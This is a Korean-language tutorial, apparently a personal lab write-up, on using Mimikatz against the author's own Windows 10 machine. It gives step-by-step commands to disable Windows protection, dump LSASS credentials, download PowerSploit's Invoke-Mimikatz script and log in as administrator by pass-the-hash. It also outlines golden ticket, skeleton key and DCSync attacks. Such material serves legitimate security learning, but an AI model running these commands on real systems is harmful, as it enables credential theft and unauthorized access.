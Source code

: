 ### mimikatz 사용 (lsass 메모리 덤프 및 관리자 계정 로그인)


#### 1. 설치

https://github.com/ParrotSec/mimikatz

위 사이트에서 다운로드 가능하며, Windows 보안 실시간 보호 등을 꺼주어야 다운로드 가능합니다.



- 개요

Mimikatz는 사용자가 메모리 또는 Windows 운영 체제에서 암호, 해시 및 Kerberos 티켓과 같은 인증 자격 증명을 추출할 수 있는 악용 후 도구입니다. 원래 Windows 운영 체제의 보안 취약점을 입증하기 위한 개념 증명 도구로 개발되었지만 현재는 공격자와 보안 전문가 모두가 보안 평가 및 침투 테스트를 수행하는 데 일반적으로 사용됩니다. Mimikatz를 사용하면 공격자는 인증 메커니즘을 우회하고 대상 시스템의 중요한 리소스에 액세스할 수 있는 pass-the-hash, pass-the-ticket 및 골든 티켓 공격과 같은 다양한 공격을 수행할 수 있습니다.


- 기능

Mimikatz는 Windows 시스템에서 다양한 악용 후 작업을 수행하기 위한 다목적 도구입니다. Mimikatz로 할 수 있는 다른 작업은 다음과 같습니다.

* LSASS 메모리 덤프: 이 명령은 LSASS(Local Security Authority Subsystem Service) 프로세스의 메모리에서 암호, 해시 및 Kerberos 티켓과 같은 자격 증명을 추출합니다.
* Pass-the-Hash: 이 기술을 사용하면 공격자가 실제 암호를 모르더라도 사용자 암호의 해시를 사용하여 원격 시스템에 인증할 수 있습니다.
* Pass-the-Ticket: 이 기술을 사용하면 공격자가 실제 사용자의 암호를 모르더라도 Kerberos 티켓을 사용하여 원격 시스템에 인증할 수 있습니다.
* 골든 티켓: 이 기술을 사용하면 공격자가 도메인의 모든 리소스에 액세스하는 데 사용할 수 있는 위조된 Kerberos TGT(Ticket Granting Ticket)를 만들 수 있습니다.
* 실버 티켓: 이 기술을 사용하면 공격자가 도메인의 특정 리소스에 대한 액세스 권한을 얻는 데 사용할 수 있는 위조된 Kerberos 서비스 티켓을 만들 수 있습니다.
* 스켈레톤 키: 이 기술을 사용하면 공격자가 가짜 암호를 도메인 컨트롤러의 메모리에 주입하여 도메인의 모든 사용자에 대한 암호 인증을 효과적으로 우회할 수 있습니다.
* DCSync: 이 기술을 사용하면 관리 권한이 있는 공격자가 도메인 컨트롤러에서 암호 데이터를 복제하여 도메인의 자격 증명 데이터베이스에 효과적으로 액세스할 수 있습니다.
 

#### Pass-The-Hash

Pass-The-Hash는 패스워드값을 사용하는 것이 아닌 패스워드의 해시값을 사용해서 자격증명을 하는 방식입니다. 로그인할 때 우리는 비밀번호를 치지만, Pass-The-Hash 기능을 이용하면 아이디와 해시값을 사용해서 로그인할 수 있습니다. 
Mimikatz를 통해서 lsass 메모리덤프 및 User ID와 NTLM Hash 값을 알아내 일반적인 비밀번호가 아닌 Hash 값으로 로그인할 예정입니다.


#### lsass 메모리 덤프 및 Pass-The-Hash를 이용하여 관리자 계정 시도

* 주의사항
  mimikatz 파일을 다운로드 받은 후 관리자권한으로 실행하여야 에러가 나지 않고 아래와 같이 실행됩니다.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

```

사진
사진

관리자계정이 아닌 다른 계정으로 mimikatz를 실행해주시고 위와 같이 명령어를 입력해주시면 위와 같이 정보를 얻을 수 있습니다.

윈도우10 OS에서도 실행되는 것을 확인했습니다.

위에서 얻은 정보 중 Username, Domain, NTLM 정보를 적어놓습니다. 이후 파워쉘을 실행하고 Mimikatz 파워쉘 스크립트를 아래 명령어로 다운로드 받습니다.

```

Invoke-WebRequest -Uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 -OutFile Invoke-Mimikatz.ps1

```

위에서 다운로드 받게되면 아래 파일이 생깁니다.

사진

이후 Pass-The-Hash 기능으로 NTLM hash 값을 이용하여 관리자 계정으로 접근하는 명령어를 실행합니다.

```

invoke-mimikatz -command '"sekurlsa::pth /user:user/domain:DESKTOP-B6EDDU2 /ntlm:c5928614e7dcd1e3ec18503cb1***** /run:powershell.exe"'

```

관리자 계정 접근이 정상적으로 되었는지 whoami , ipconfig 등 다양한 명령어를 시도해봅니다

<img width="852" height="232" alt="image" src="https://github.com/user-attachments/assets/143ebbad-2d6a-4eb2-9d8e-7b707c94204e" />

위 사진을 보니 정상적으로 제 관리자계정인 user 계정으로 정상 접근됨이 확인되었습니다.


